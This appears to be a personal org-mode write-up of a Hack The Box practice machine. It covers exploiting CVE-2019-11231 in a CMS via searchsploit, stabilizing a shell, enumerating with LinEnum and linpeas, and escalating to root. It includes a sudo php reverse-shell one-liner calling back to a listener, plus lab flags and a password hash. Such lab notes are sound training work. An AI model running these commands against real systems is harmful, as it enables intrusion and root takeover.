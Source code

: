 # 202411200013 htb-first-box
===
tags: 
===


#+DOWNLOADED: file:C%3A/Users/shyam/Desktop/screenshot_20241120_001433.png @ 2024-11-20 00:14:53
[[file:2024-11-20_00-14-53_screenshot_20241120_001433.png]]



#+DOWNLOADED: file:C%3A/Users/shyam/Desktop/screenshot_20241120_001925.png @ 2024-11-20 00:21:40
[[file:2024-11-20_00-21-40_screenshot_20241120_001925.png]]

username -> admin
password -> d033e22ae348aeb5660fc2140aec35850c4da997

checking the URL http://10.129.196.221/data/other/logs/ results in a /failedlogins.log/ file
being downloaded. and from that it's clear that /admin/ is a valid username, as opposed to
/admin@gettingstarted.com/ 
using the /apikey/ from above as password also fails.

* CVE-2019-11231
  - after googling for manual exploits, this came up. So, it turns out, with just the above info
    -> the api key and the admin username, it's possible to bypass authentication and upload
    arbitrary php files.
  - this is available in /searchsploit/
    download it to the current folder with the following
    #+BEGIN_SRC bash
      searchsploit -m <exploit path>
    #+END_SRC
  - run the exploit like below; with a netcat listener on 4443

    #+DOWNLOADED: file:D%3A/code/htb/academy/academy-writeups/screenshot_20241123_233903.png @ 2024-11-26 00:00:26
    [[file:CVE-2019-11231/2024-11-26_00-00-26_screenshot_20241123_233903.png]]


* initial foothold
  - get a nicer terminal with the below (from [[https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/][ropnop-blog]])
    #+BEGIN_SRC bash
      # In reverse shell
      $ python -c 'import pty; pty.spawn("/bin/bash")'
      Ctrl-Z

      # In Kali
      $ stty raw -echo
      $ fg

      # In reverse shell
      $ reset
      $ export SHELL=bash
      $ export TERM=xterm-256color
      $ stty rows <num> columns <cols>
      #+END_SRC
** other shell stabilization options
    #+BEGIN_SRC bash
    /usr/bin/script -qc /bin/bash /dev/null
    #+END_SRC
* user.txt
  7002d65b149b0a4d19132a66feed21d8

* privilege escalation
** LinEnum download
   #+BEGIN_SRC bash
     wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
   #+END_SRC
   after running /LinEnum/, we find that we have full sudo access to */usr/bin/php*, so:
   #+BEGIN_SRC bash
     sudo /usr/bin/php -r '$sock=fsockopen("10.10.15.105",4443);exec("/bin/sh -i <&3 >&3 2>&3");'
   #+END_SRC
* root flag
  available in /root/root.txt

* privilege escalation - another method
  running /linpeas.sh/, the user /mrb3n/, sticks out; also, the non PE flag was found in this
  user's home directory
  /linpeas/ suggests:
  =Do not forget to test 'su' as any other user with shell: without password and with their=
  =names as password=
  the above doesn't work

* things I missed:
** gaining a foothold
   login with admin:admin would have worked
** privilege escalation
   since PHP itself was runnable with sudo, it didn't need another reverse shell for root
   access; could have just done
   #+BEGIN_SRC bash
     sudo php -r "system('$CMD');"
   #+END_SRC
